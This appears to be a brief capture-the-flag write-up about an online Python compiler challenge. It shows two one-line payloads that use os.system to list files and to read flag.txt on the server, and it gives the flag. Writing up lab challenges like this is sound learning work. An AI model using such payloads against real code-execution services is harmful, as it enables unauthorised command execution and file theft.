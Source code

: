 ```yaml
---
title: 'Mini Compiler'
date: 2024-12-09T05:02:41+05:30
draft: false
---
```


"Remote code execution as a service.". Reminded me of my freshman year's moodle exploitation :lol:.

<!--more-->

## The statement

In this challenge, you have access to a simple online compiler that executes Python code. The code you submit is run on the server, and your goal is to exploit this vulnerability to retrieve the secret flag

## Solution

```py
__import__("os").system("ls")
```

![these ain't challenges at this point](images/minicom1.png)

```py
__import__("os").system("cat flag.txt")
```

![these ain't challenges at this point](images/minicom2.png)

### Flag: `r00t@locahost{mini_compiler_pwn}`


